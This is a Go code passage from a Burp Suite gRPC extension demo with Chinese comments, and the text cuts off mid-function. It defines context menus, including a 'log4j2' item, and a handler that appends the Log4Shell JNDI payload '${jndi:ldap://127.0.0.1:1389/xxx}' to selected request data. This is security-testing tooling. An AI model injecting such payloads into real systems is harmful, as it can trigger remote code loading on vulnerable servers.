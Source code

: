 

```go
// ConTextMenuItemsDemo 上下文提供程序
type ConTextMenuItemsDemo struct {
	BurpApi.UnimplementedGetConTextMenuItemsServerServer
}

// GetConTextMenuItems 获取菜单项
func (ConTextMenuItemsDemo) GetConTextMenuItems(c context.Context, str *BurpApi.Str) (*BurpApi.MenuInfo, error) {

	return &BurpApi.MenuInfo{
		TarGet: "127.0.0.1:9000",
		Menu: &BurpApi.Menu{
			Name:     "菜单演示",
			MenuList: nil,
			MenuItemList: []*BurpApi.MenuItem{
				&BurpApi.MenuItem{Name: "log4j2"},
			},
		},
	}, nil

	//return &BurpApi.MenuInfo{
	//	TarGet: "127.0.0.1:9000", // 地址
	//	Menu: &BurpApi.Menu{ // 一个菜单  一个菜单可以有多个菜单和菜单项
	//		Name: "第一个菜单",
	//		MenuList: []*BurpApi.Menu{
	//			&BurpApi.Menu{
	//				Name:     "第一下的第一个菜单",
	//				MenuList: nil,
	//				MenuItemList: []*BurpApi.MenuItem{
	//					&BurpApi.MenuItem{Name: "第一个菜单项"},
	//				},
	//			},
	//			&BurpApi.Menu{
	//				Name:         "第一下的第二个菜单",
	//				MenuList:     nil,
	//				MenuItemList: nil,
	//			},
	//		}, // 菜单列表
	//		MenuItemList: []*BurpApi.MenuItem{ // 菜单项列表
	//			&BurpApi.MenuItem{Name: "第一个菜单项呀"},
	//			&BurpApi.MenuItem{Name: "第二个菜单项呀"},
	//		},
	//	},
	//}, nil
}

// ContextItems 上下文项处理
type ContextItems struct {
	BurpApi.UnimplementedContextMenuItemsProviderServer
}

// MenuItemsProvider 菜单项处理
func (ContextItems) MenuItemsProvider(c context.Context, cmi *BurpApi.ContextMenuItems) (*BurpApi.MenuItemsReturn, error) {
	fmt.Println("菜单项处理: " + cmi.GetName())
	if cmi.GetIsSelect() { // 是否用选中数据
		fmt.Println("选中数据")
		selectData := cmi.GetSelectData()                                                   // 获取选中数据
		newSelectData := append(selectData, []byte("${jndi:ldap://127.0.0.1:1389/xxx}")...) // 在选中的数据后面加上载荷
		return &BurpApi.MenuItemsReturn{
```